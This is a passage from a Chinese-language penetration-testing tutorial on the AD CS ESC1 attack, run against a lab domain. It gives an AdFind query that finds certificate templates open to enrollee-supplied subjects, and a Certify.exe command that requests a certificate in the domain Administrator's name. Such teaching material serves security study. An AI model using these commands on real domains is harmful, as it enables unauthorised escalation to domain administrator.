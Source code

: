 如上图所示，证书模板 VulnTemplate 在 `msPKI-Certificate-Name-Flag` 属性中启用了 `CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT` 标志，并且具有客户端身份验证的 EKU，并授予所有域用户注册权限。

此外，也可以通过 AdFind 等工具直接查询活动目录，并过滤出所有不需要批准/授权签名、具有客户端身份验证或智能卡登录 EKU 并启用 `CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT` 标志的证书模板，相关语法如下。

```console
C:\Users\Marcus\Desktop> AdFind.exe -b "CN=Configuration,DC=pentest,DC=com" -f "(&(objectclass=pkicertificatetemplate)(!(mspki-enrollment-flag:1.2.840.113556.1.4.804:=2))(|(mspki-ra-signature=0)(!(mspki-ra-signature=*)))(|(pkiextendedkeyusage=1.3.6.1.4.1.311.20.2.2)(pkiextendedkeyusage=1.3.6.1.5.5.7.3.2)(pkiextendedkeyusage=1.3.6.1.5.2.3.4)(pkiextendedkeyusage=2.5.29.37.0)(!(pkiextendedkeyusage=*)))(mspki-certificate-name-flag:1.2.840.113556.1.4.804:=1))"
```

下面，我们可以在当前未提升的上下文中运行 Certify 来请求证书，并将 `/altname` 指定为域管理员，相关命令如下。

```console
C:\Users\Marcus\Desktop> Certify.exe request /ca:DC01.pentest.com\pentest-DC01-CA /template:VulnTemplate /altname:PENTEST\Administrator
```
